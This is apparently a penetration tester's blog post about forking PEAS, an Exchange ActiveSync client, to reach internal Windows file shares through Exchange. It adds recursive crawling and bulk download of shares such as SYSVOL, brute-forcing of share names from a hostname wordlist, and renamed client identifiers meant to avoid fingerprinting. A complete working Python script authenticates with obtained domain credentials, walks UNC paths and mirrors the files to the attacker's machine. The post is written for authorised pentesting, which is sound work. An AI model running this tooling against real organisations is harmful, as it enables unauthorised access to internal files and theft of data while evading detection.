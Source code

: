 ```yaml
---
layout: post
title: "Tuning PEAS for Fun and Profit"
date: 2020-08-22 19:00:00 +0300
author: snovvcrash
categories: /dev
tags: [pentest, exchange, activesync, peas, python]
published: true
---
```


At the recent external pentest engagement I had a feeling that PEAS (Python Exchange ActiveSync client) is missing some handy features. For example, crawling shared folders and auto downloading discovered files would be a nice function to have as well as brute forcing potential shares by a wordlist. To save time I wrote a draft script at the time of the pentest, but then I decided to fork PEAS project and tune the source code.

<!--cut-->

![banner.png](/assets/images/tuning-peas-for-fun-and-profit/banner.png)
{:.center-image}

*Would you like to be modified?*
{:.quote}

* TOC
{:toc}

## Prologue

Few pentest experts would argue that if there is an OWA client on the perimeter, then be ready to collect loot. And that is because OWA means MS Exchange, and MS Exchange is not the best spot to demonstrate perfect security. [Time-based username enumeration](https://www.triaxiomsecurity.com/2019/03/15/vulnerability-walkthrough-timing-based-username-enumeration/) will give you account names and a [password spray](https://github.com/sensepost/ruler/wiki/Brute-Force#brute-force-for-credentials) will likely reveal some weak credentials in the domain.

One of the ways where to go next is a hunt for fileshares with juicy content through [Exchange ActiveSync](https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/). If you dare choose this path, then [PEAS](https://github.com/FSecureLABS/peas) could become your loyal companion along the way, but there is quite a few things that could be upgraded in this tool very simply. I will fork PEAS and add some modifications to the code.

## Crawl & Dump the Shares

The first thing I felt the need for was the ability to recursively crawl the share searching for files by a given pattern. Let's say that the only share you were able to guess (or that you had access to) was DC's `SYSVOL`. Then it would be a pain to examine all the GUID style policy paths manually. If we could automate this process and add this `--download` option in order to mirror `SYSVOL` to an attacker's machine, then it would not be a big deal to run `find` through all the content and `xargs grep` for some extra hostnames / account names. That's exactly what [crawl_unc](https://github.com/snovvcrash/peas/blob/master/peas/__main__.py#L298) serves for:

[![peas-crawl-unc.png](/assets/images/tuning-peas-for-fun-and-profit/peas-crawl-unc.png)](/assets/images/tuning-peas-for-fun-and-profit/peas-crawl-unc.png)
{:.center-image}

## Brute Force Share Names

In case you did not find any additional names within `SYSVOL` contents, then you could try to enumerate shares with a brute force attack. The [hostnames.txt](https://github.com/snovvcrash/peas/blob/master/hostnames.txt) wordlist stores some common machine names that will be mutated on-the-fly using predefined patterns and a prefix string (if you provide one). That is what [brute_unc](https://github.com/snovvcrash/peas/blob/master/peas/__main__.py#L351) is responsible for:

[![peas-brute-unc.png](/assets/images/tuning-peas-for-fun-and-profit/peas-brute-unc.png)](/assets/images/tuning-peas-for-fun-and-profit/peas-brute-unc.png)
{:.center-image}

Because I can list the root directory of the share, there is no need to guess child folder names as well — they will appear if the machine have any.

## Fix Encoding

It is also worth noting, that PEAS will likely break if it encounters a non-en-US characters in a pathname. That can be [fixed](https://github.com/snovvcrash/peas/commit/fe5508700246710325b727558b49acd8d954e746) by removing explicitly set UTF-8 encoding.

## Mimic Legitimate Identifiers

As it is stated in [@ptswarm](https://twitter.com/ptswarm)'s [research](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/):

![ptswarm-peas-1.png](/assets/images/tuning-peas-for-fun-and-profit/ptswarm-peas-1.png)
{:.center-image}

![ptswarm-peas-2.png](/assets/images/tuning-peas-for-fun-and-profit/ptswarm-peas-2.png)
{:.center-image}

Because PEAS is just a **P**ython client for **EAS**, it needs to have a user-agent string and some other identifiers that can easily be fingerprinted and added to a blacklist. Anyways, [changing them](https://github.com/snovvcrash/peas/commit/ee288bef77fb69217a2442c9b5440cd830a7846b) is also quite a straightforward task.

## Draft Script

This is the draft script that was written at the time of engagement before forking PEAS:

```python
#!/usr/bin/env python

# Usage: python2 peas-crawl-shares.py -h

import os
import errno
from random import choice
from string import ascii_uppercase, digits
from argparse import ArgumentParser

import peas
from pathlib import Path, PureWindowsPath


def init_peas_client(server, domain_netbios, user, password):
	client = peas.Peas()
	client.disable_certificate_verification()

	client.set_creds({
		'server': server,
		'user': '%s\\%s' % (domain_netbios, user),
		'password': password,
	})

	print('[*] Auth result: %s' % client.check_auth())

	return client


def list_unc(client, uncpath, show_parent=True):
	records = client.get_unc_listing(uncpath)

	if show_parent:
		print('[*] Listing: %s\n' % (uncpath,))

	output = []
	for record in records:
		name = record.get('DisplayName')
		path = record.get('LinkId')
		is_folder = record.get('IsFolder') == '1'
		is_hidden = record.get('IsHidden') == '1'
		size = record.get('ContentLength', '0') + 'B'
		ctype = record.get('ContentType', '-')
		last_mod = record.get('LastModifiedDate', '-')
		created = record.get('CreationDate', '-')
		attrs = ('f' if is_folder else '-') + ('h' if is_hidden else '-')
		output.append("%s %-24s %-24s %-24s %-12s %s" % (attrs, created, last_mod, ctype, size, path))

	print('\n'.join(output))


def crawl_unc(client, uncpath, download=False):
	records = client.get_unc_listing(uncpath)
	for record in records:
		if record['IsFolder'] == '1':
			if record['LinkId'] == uncpath:
				continue
			crawl_unc(client, record['LinkId'], download)
		else:
			if download:
				try:
					data = client.get_unc_file(record['LinkId'])
				except TypeError:
					pass
				else:
					winpath = PureWindowsPath(record['LinkId'])
					posixpath = Path(winpath.as_posix()) # Windows path to POSIX path
					posixpath = Path(*posixpath.parts[1:]) # get rid of leading "/"
					dirpath = posixpath.parent
					dirpath = mkdir_p(dirpath)
					filename = str(dirpath / posixpath.name)
					try:
						with open(filename, 'w') as fd:
							fd.write(data)
					# If path name becomes too long when filename is added
					except IOError as e:
						if e.errno == errno.ENAMETOOLONG:
							dirpath = Path(dirpath.parts[0])
							extname = posixpath.suffix
							# Generate random name for the file and put it in the root share directory
							filename = ''.join(choice(ascii_uppercase + digits) for _ in range(8)) + extname
							filename = str(dirpath / filename)
							with open(filename, 'w') as fd:
								fd.write(data)
						else:
							raise

			list_unc(client, record['LinkId'], show_parent=False)


def mkdir_p(dirpath):
	try:
		dirname = str(dirpath)
		os.makedirs(dirname)
	except OSError as e:
		if e.errno == errno.EEXIST and os.path.isdir(dirname):
			pass
		# If directory path name already too long
		elif e.errno == errno.ENAMETOOLONG:
			dirpath = Path(dirpath.parts[0])
		else:
			raise

	return dirpath


if __name__ == '__main__':
	parser = ArgumentParser()
	parser.add_argument('-s', '--server', required=True, help='server')
	parser.add_argument('-d', '--domain-netbios', required=True, help='domain NetBIOS name')
	parser.add_argument('-u', '--user', required=True, help='username')
	parser.add_argument('-p', '--password', required=True, help='password')
	parser.add_argument('--uncpath', help='UNC path')
	parser.add_argument('--crawl-unc', action='store_true', help='recursively list all files within specified UNC path')
	parser.add_argument('--download', action='store_true', help='recursively list & download files within specified UNC path')

	args = parser.parse_args()

	client = init_peas_client(args.server, args.domain_netbios, args.user, args.password)
	list_unc(client, args.uncpath)

	if args.crawl_unc:
		if args.download:
			print('\n[*] Listing and downloading all files...\n')
		else:
			print('\n[*] Listing all files...\n')

		crawl_unc(client, args.uncpath, download=args.download)
```

## Modified PEAS

* [snovvcrash/peas](https://github.com/snovvcrash/peas)

## Refs

* [FSecureLABS/peas](https://github.com/FSecureLABS/peas)
* [Accessing Internal Fileshares through Exchange ActiveSync](https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/)
* [PEAS: Access internal fileshares through Exchange ActiveSync](https://labs.f-secure.com/tools/peas-access-internal-fileshares-through-exchange-activesync/)
* [Attacking MS Exchange Web Interfaces – PT SWARM](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)
